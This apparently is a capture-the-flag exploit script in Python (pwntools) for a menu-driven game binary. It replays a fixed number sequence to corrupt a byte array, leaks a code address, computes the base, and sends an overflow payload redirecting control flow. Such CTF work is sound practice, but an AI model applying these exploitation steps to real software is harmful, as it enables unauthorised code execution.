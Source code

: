 ```py
def debug():
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -p {p.pid}' '''])
	p.interactive()

#------------- 基本配置 -------------

def continue_game(number: int) -> None:
	p.sendlineafter(b'waiting for your choice', b'1')
	p.sendlineafter(b'2 or 1 or 0', str(number).encode())

def show() -> bytes:
	p.sendlineafter(b'waiting for your choice', b'2')
	data = p.recvuntil(b'|--------').split(b'History is : ')[1].split(b'|--------')[0].strip(b'\t\n')
	return data

def exit() -> None:
	p.sendlineafter(b'waiting for your choice', b'4')

rand_nums = '4 3 2 4 2 4 3 1 2 2 3 4 3 4 4 3 1 3 1 1 4 1 4 2 3 3 3 4 4 4 2 3 3 3 2 4 2 1 4 3 2 2 2 4 1 2 3 1 4 3 2 3 4 1 1 2 3 3 1 2 2 2 1 4 1 2 3 2 2 2 1 4 3 2 3 4 3 1 4 3 4 1 1 3 1 1 4 4 3 4 1 1 1 1 4 1 3 3 3 4 4 3 3 3 4 2 2 3 2 1 1 1 2 1 3 2 2 2 1 4 1 2 4 2 2 4 2 4 2 4 4 1 2 2 3 2 3 4 4 1 1 4 1 2 4 4 3 1 1 4 1 2 1 4 3 2 3 4 2 4 4 1 1 1 2 3 2 1 3 1 1 3 4 1 4 4 4 2 4 1 1 4 2 1 4 4 3 2 3 4 2 2 4 2 3 1 4 4 1 2 1 1 4 4 2 3 3 1 1 3 1 1 2 2 2 1 1 4 3 4 3 4 1 2 1 3 2 4 3 3 2 3 3 1 2 4 4 1 1 4 3 1 4 4 3 1 1 3 4 3 2 2 2 3 3 2 1 1 1 3 3 2 1 1 3 3 1 2 3 1 1 1 1 4 4 3 1 4 2 4 2 3 2 3 1 4 4 2 4'.split(' ')
rand_nums = [ int(i) for i in rand_nums ][::-1]

#------------- 填充整个 276 长度的 byte 数组 -------------
#------------- 并使当前计算的数字为 0x60，也就是 addr_virtfunc_exit 地址最后有一个字节为 0x60 -------------

for i in range(0, 92):
	cur_nums = rand_nums.pop()
	if cur_nums == 1: continue_game(2)
	if cur_nums == 2: continue_game(0)
	if cur_nums == 3: continue_game(1)
	if cur_nums == 4: continue_game(1)

flag = False
for i in range(92, 276):
	cur_nums = rand_nums.pop()
	if cur_nums == 1: continue_game(1)
	if cur_nums == 2: 
		if not flag:
			continue_game(1)
			flag = True
		else: continue_game(0)
	if cur_nums == 3: continue_game(1)
	if cur_nums == 4: continue_game(1)

data = show()
leak_addr = u64(data[-6:].ljust(8, b'\x00'))
base_addr = leak_addr - 0x4C60
exit()

#------------- 发送 payload -------------

payload	= b''
payload += b'a' * 0x20 + p64(base_addr + 0x5840) + p64(base_addr + 0x0000000000002516)

p.sendlineafter(b'favorite number.\n', payload)
p.interactive()
```